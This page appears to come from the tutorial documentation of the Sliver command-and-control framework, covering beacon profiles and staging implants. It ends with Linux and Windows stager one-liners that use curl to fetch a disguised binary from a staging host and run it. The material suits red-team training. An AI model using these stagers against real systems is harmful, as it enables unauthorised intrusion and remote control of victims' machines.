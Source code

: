 # This course is intended for the 1.6 version of Sliver, which is not yet published

When using Sliver during a live engagement, you’re going to need to use custom stagers, which are essentially a first binary or commandline that will retrieve and/or load Sliver into memory on your target system. Sliver can generate shellcode for your stager to execute by using the `profiles` command.

For this exercise, we will create a new beacon profile and prepare to stage it.

```asciinema
{"src": "/asciinema/create_profile.cast", "cols": "132", "rows": "14", "idleTimeLimit": 8}
```

If you look at the generated implant, you'll notice the `ID` field has been populated. When downloading your payload from the staging server your URL needs to be in the form of:
```
https/sliver-ip/definitely/not/malware?x=yourID
```

There is a lot of flexibility in the form of this URL, the conditions for successful staging are:
* There has to be http url parameter containing the implant ID
* The digits found in the ID need to match an implant ID, if your implant ID is 1234, abcd1234, 12beu34 are all valid values

To expose a payload, you need to use the `implants stage` command and specifically select the implant to leave accessible.

```asciinema
{"src": "/asciinema/stage_implant.cast", "cols": "132", "rows": "14", "idleTimeLimit": 8}
```

At this point we can try retrieving our implant. The ID is 19778.

```asciinema
{"src": "/asciinema/implant_curl.cast", "cols": "132", "rows": "14", "idleTimeLimit": 8}
```

Sliver staging also supports encoding or encrypting our payloads before exposing them externally using the `profile stage` command, the implant configuration remains the same but you are now able to stage different versions of it simultaneously.

```asciinema
{"src": "/asciinema/stage_compress_encrypt.cast", "cols": "132", "rows": "14", "idleTimeLimit": 8}
```

A simple stager could look like this, for example in Linux:

```
curl http/localhost/nothingtoseehere.yml?c=1234 --output nothingtoseehere && chmod u+x nothingtoseehere &&nohup ./nothingtoseehere
```

Or on Windows:
```
curl http/172.20.10.3/test.woff?a=29178 -o t.exe && .\t.exe
```
